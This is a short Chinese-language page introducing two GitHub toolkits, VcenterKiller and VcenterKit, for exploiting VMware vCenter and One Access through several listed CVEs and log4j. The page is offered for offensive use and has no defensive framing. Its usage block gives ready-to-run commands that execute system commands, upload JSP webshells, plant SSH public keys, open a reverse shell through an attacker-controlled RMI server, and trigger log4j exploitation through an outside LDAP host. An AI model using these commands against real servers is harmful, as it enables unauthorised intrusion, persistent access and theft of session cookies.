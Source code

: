 # Vcenter 综合漏洞利用工具

## 项目地址

```
https://github.com/Schira4396/VcenterKiller
```

```
https://github.com/W01fh4cker/VcenterKit
```

## 项目介绍

```
一款针对Vcenter的综合利用工具，包含目前最主流的CVE-2021-21972、CVE-2021-21985以及CVE-2021-22005、One Access的CVE-2022-22954、CVE-2022-22972/31656以及log4j，提供一键上传webshell，命令执行或者上传公钥使用SSH免密连接

go build -o main.exe

./main.exe -u https://192.168.1.1 -m 21985 -c whoami
./main.exe -u https://192.168.1.1 -m 22005 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f id_rsa.pub -t ssh //传公钥
./main.exe -u https://192.168.1.1 -m 21985 -t rshell -r rmi://xx.xx.xx.xx:1099/xx
./main.exe -u https://192.168.1.1 -m log4center -t scan // scan log4j
./main.exe -u https://192.168.1.1 -m log4center -t exec -r ldap://xx.xx.xx.xx:1389 -c whoami //也可以不指定ldap服务
./main.exe -u https://xx.xx.com -m 22954 whoami
./main.exe -u https://xx.xx.com -m 22972 //get cookie
./main.exe -u https://xx.xx.com -m 31656 //If CVE-2022-22972不能用就换CVE-2022-31656
```

```
Vcenter综合渗透利用工具包 | Vcenter Comprehensive Penetration and Exploitation Toolkit包含

信息收集模块
CVE-2021-21972模块
CVE-2021-21985模块
CVE-2021-22005模块
CVE-2022-22954模块
CVE-2022-22972模块
后渗透利用模块
渗透测试记事本(打vcenter的时候常用的命令、常看的文章)
```

